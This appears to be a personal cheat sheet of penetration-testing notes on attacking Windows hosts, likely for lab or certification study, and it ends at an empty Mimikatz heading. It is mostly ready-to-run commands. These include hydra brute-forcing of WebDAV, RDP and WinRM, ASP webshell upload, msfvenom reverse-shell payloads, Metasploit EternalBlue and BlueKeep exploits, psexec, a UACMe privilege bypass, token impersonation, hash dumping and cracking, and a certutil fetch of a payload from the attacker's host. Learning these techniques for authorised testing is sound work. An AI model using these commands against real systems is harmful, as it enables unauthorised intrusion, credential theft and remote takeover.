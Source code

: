
# Windows

### Frequently Exploited Windows Services

![[Frequently Exploited Windows Services.png]]

### Exploiting Windows Vulnerabilities
###### Exploiting Microsoft IIS WebDAV
- `nmap -sV -p 80 10.12.23.1 --script=http-enum`
- `hydra -L /path/to/word/list -P /path/to/word/list 10.11.23.12 http-get /webdav/` -- to brute force login
- `davtest -url http://10.12.2.21/webdav` 
   `davtest -auth username:password -url http://10.12.2.21/webdav` -- tells you what type of files you can upload or what types of file can be executed 
- `cadaver https://10.12.23.1` after this find the correct file which can be uploaded and upload it to server. To upload `put /usr/share/webshells/asp/webshell.asp` 
- msfvenom -- to generate payload
	 -  `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<YOUR IP> LPORT=1234 -f asp > shell.asp`
	 - `service start postgresql && msfconsole` -- we need db because metasploit framework console requires the actual metasploit framework db
	 - `use multi/handeler`
	 - `set payload windows/meterpreter/reverse_tcp`
	 - `set LHOST <YOUR IP>`
	 - `set LPORT 1234`
	 - `run`
	 - OR
		 - use exploit/windows/iis/iis_webdav_upload_asp 
		 - set RHOSTS 10.0.17.27 
		 - set HttpUsername bob
		 - set HttpPassword password_123321 
		 - set PATH /webdav/metasploit.asp 
		 - exploit

###### Exploiting SMB With PsExec
-  `psexec.py USERNAME@IP cmd_to_run_on_windows`
- OR
	- use exploit/windows/smb/psexec 
	- set RHOSTS 10.0.0.242 
	- set LHOSTS 10.10.12.2
	- set SMBUser Administrator 
	- set SMBPass qwertyuiop 
	- exploit
 
###### Exploiting Windows MS17-010 SMB Vulnerability (EternalBlue) 
- Only works for SMBv1
- `nmap -sV -p 445 --script=smb-vuln-ms17-010 10.10.12.2`
- Msfconsole
	use exploit/windows/smb/ms17_010_eternalblue
	set payload windows/x64/meterpreter/reverse_tcp
	set RHOSTS
	set LHOSTS
	run
- `hashdump` -- run in meterpreter
- `shell` -- to go to the shell
- `john [HashFILE]--wordlist=/home/anurag/Downloads/rockyou.txt --format:NT ` -- to crack hashdump

###### Exploiting RDP
- use metasploit to confirm the port which is using RDP
	use auxiliary/scanner/rdp/rdp_scanner
	set RHOSTS 10.2.24.86
	set RPORT 3333
	run
- `hydra -L path/to/user/wordlist -P path/to/password/wordlist rdp://10.2.24.86 -s 3333 ` -- to brute force login cred (you can use '-t' to change the speed default is 16 put it to 2 or 3 to not cause DOS on server)
- `xfreerdp /u:[USERNAME] /p:[PASSWORD] /v:[IP:PORT]`

###### Exploiting Windows CVE-2019-0708 RDP Vulnerability (BlueKeep)
- Msfconsole
	- use auxiliary/scanner/rdp/cve_2019_0708_bluekeep   -- to check if target is vulnerable to bluekeep or not
	- use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
	   set RHOSTS 10.10.10.7
	   set payload /windows/x64/meterpreter/reverce_tcp    -- only if not set by default
	   set LHOSTS
	   set LPORT
	   set RPORT   -- if not default port
	   set target -- set the target (see shoe target)
	   exploit

###### Exploiting WinRM
- `crcakmapexec winrm [IP] -u [USERNAME] -p path/to/wordlist` -- to password brute force
- `crcakmapexec winrm [IP] -u [USERNAME] -p [PASSWORD] -x "CMD"` -  to run arbitrary cmd on system  
- `evil-winrm.rb -u [USERNAME] -p 'PASSWORD' -i [IP]` -- to get shell 
   Or Msfconsole
	use exploit/windows/winrm/winrm_script_exec
	set RHOSTS 10.0.0.173
	set USERNAME administrator
	set PASSWORD tinkerbell
	set FORCE_VBS true
	exploit


### Windows Privilege Escalation
###### Windows Kernel Exploits
- `getsystem` -- inbuild meterpreter cmd that allows you to automatically elevate your privileges on the target system
- `use post/multi/recon/local_exploit_suggester` --  this will enum all the known vuln within this particular version of windows 
   OR manual
   - GitHub: https://github.com/AonCyberLabs/Windows-Exploit-Suggester

###### Bypassing UAC With UACMe (lab is little difficult)
- In order to successfully bypass UAC, we will need to have access to a user account
that is a part of the local administrators group on the Windows target system 
`net localgroup administrators`
- GitHub: https://github.com/hfiref0x/UACME -- to bypass UAC
	- by using `Akagai64.exe 23 path/to/backdoor/` we can elevate the privileges 
	- We will create the backdoor by msfvenom `msfvenom -p windows/meterpreter/reverse_tcp LHOST=[your ip] LPORT=1234 -f exe > backdoor.exe`
	- After that run msfconsole  
		   use exploit/multi/handler
		   set payload windows/meterpreter/reverse_tcp
		   set LHOST (your ip)
		   set LPORT 1234
		   run
	- Now upload the backdoor `upload backdoor.exe` and `upload /path/to/Akagai64.exe`
	- `./Akagai46.exe 23 /path/to/backdoor` 

###### Access Token Impersonation
- An access token will typically be assigned one of the following security levels:
	- Impersonate-level tokens are created as a direct result of a non-interactive login on
	Windows, typically through specific system services or domain logons.
	-  Delegate-level tokens are typically created through an interactive login on Windows,
	primarily through a traditional login or through remote access protocols such as RDP.

- The following are the privileges that are required for a successful impersonation attack:
	- SeAssignPrimaryToken: This allows a user to impersonate tokens.
	- SeCreateToken: This allows a user to create an arbitrary token with administrative
	privileges.
	- SeImpersonatePrivilege: This allows a user to create a process under the security
	context of another user typically with administrative privileges.
- `load incognito` -- load after we get meterpreter session
- `list_tokens -u` -- to list user account access tokens
- `impersonate_token "[TOKEN NAME]"` 


### Windows Credential Dumping
###### Windows Password Hashes
- The LSA (Local Security Authority) or LSASS (Local Security Authority SubSystem) is responsible for authentication on Windows. And this particular service also has a cache of memory that will contain hashes as it interact with SAM database
- Elevated/Administrative privileges are required in order to access and interact with the LSASS process.
###### Searching For Passwords In Windows Configuration Files
- `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=[YOU IP] LPORT=1234 -f exe > payload.exe`
- `python -m SimpleHTTPServer 80` -- on your machine
   `certutil -urlcache -f http://[Your IP]/payload.exe payload.exe` -- on attacker/victim machine
   On Msfconsole
   `use multi/handler`
   `set payload windows/x64/meterpreter/reverse_tcp`
   `set LPORT 1234`
   `set LHOST`
- OR you can run [this](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1) on windows system `. .\PowerUp.ps1` `Invoke-PrivescAudit` if not working try `powershell -ep bypass` then run the script
###### Dumping Hashes With Mimikatz
